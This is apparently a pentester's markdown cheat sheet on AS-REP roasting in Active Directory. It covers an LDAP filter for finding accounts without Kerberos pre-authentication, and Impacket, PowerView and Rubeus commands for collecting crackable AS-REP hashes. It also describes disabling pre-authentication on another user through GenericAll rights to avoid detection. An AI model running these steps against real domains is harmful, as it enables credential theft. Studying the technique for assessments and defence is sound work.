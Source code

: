 ```yaml
---
category: Uncategorized
tags: []
---
```

#impacket #powershell #rubeus
- Also known as targeted kerberoasting.
- In kerberos, pre-authentication is required for users. 
- Pre-Authentication is when a user sends the timestamp encrypted with it's kerberos key to request TGT (AS-REQ)
- In some cases, some users may have the `DONT_REQUIRE_PREAUTH` flag set. These users don't need to encrypt their timestamp with their kerberos key, hence anyone can create AS-REQ as that user and receive AS-REP encrypted with these users's key.
- AS-REProast involves impersonating these users and receiving the AS-REP. The AS-REP can be cracked offline to recover the password of the user.
- LDAP filter to query users without pre-authentication.
```ldap
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```
- Impacket's GetNPUsers.py script can be used to get the users without pre-authentication and get their AS-REP data.
```bash
# Authenticated bind. Can fetch users automatically.
GetNPUsers.py 'mydomain.local/drdragon:Password!!' -dc-ip <IP> -outputfile asrep-hashes.txt

# Supply username
GetNPUsers.py 'mydomain.local/' -usersfile username.txt -dc-ip <IP> -outputfile asrep.hash
```
- Powerview
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
- Active Directory Module
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
- Rubeus
```powershell
.\Rubeus.exe asreproast
```
---
If a user has `GenericAll` or `GenericWrite` on another user, they can turn enable `DONT_REQUIRE_PREAUTH` and then request for TGT for that account. This is preferred over password reset because, password is much more noisy that turning of `DONT_REQUIRE_PREAUTH`.